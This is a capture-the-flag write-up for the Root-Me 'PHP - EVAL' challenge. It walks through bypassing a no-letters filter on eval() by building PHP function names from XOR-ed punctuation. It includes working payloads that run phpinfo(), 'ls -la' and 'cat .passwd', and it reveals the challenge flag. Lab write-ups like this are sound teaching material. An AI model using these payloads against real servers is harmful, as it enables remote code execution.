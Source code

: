 ```yaml
---
title: "Advanced Filter Bypass | PHP - EVAL Rootme"
date: 2024-04-17
categories: [Web Challenges, PHP - EVAL]
tags: [Web Challenges, CTF] 
---
```



Hello, In this Writeup, I will explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

## Challenge Source Code Analysis.
```php
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```

The PHP script first checks whether a POST parameter named `input` is present. If the input does not contain letters or backticks, it is evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, the script issues a warning: "Dangerous code."

## Spotting the bug.
After some research on Google, I discovered a method to bypass this filter, which is **Bypass using Non-alphabetical Character Encoding.** Let's discuss it, and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run PHP code easily and quickly. In PHP, we can use the XOR operator between characters (not just numbers) to generate a different character.

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

## Manuel Exploiting.
So, here's the idea behind our attack: what if we could reproduce an alphabetical character by xoring two non-alphabetical characters? How can we achieve this?

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you XOR this result with one of the original numbers, you'll get the third number.

For example, let's say we want to produce the character s by XORing two unknown characters.

Steps to perform the attack:
- Get the ASCII decimal value of the letter **s**, which is 115, using the ord() function in Python.

- Select a random non-alphabetical character, such as **@**, and get its ASCII decimal value, which is 64.

- XOR these two decimal values and convert the result into a character using the chr() function in Python.

- Check if the resulting character is alphabetical. The goal is to ensure the character is non-alphabetical, so it can bypass the filter.

- Finally, XOR the random non-alphabetical character with the number obtained from the XOR operation, which will give us the letter we need.


![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

I can now try this payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

## Automated Exploitation.
Nice, we can now automate this process using python, I write a simple python script to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```python
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
**How can we call this payload as a function?**

In PHP, if we declare `$__` as a variable and store the generated string from the tool in it, we can call it as `$__();` to execute it as a PHP function. We can use it like this:
```php
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```php
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Good, Command executed and flag inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```php
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
and Finally here is our flag : `M!xIng_PHP_w1th_3v4l_L0L`

![img_screenshot5](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/6ad9a53d-60af-4421-836b-6a9dc2be8e77)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)

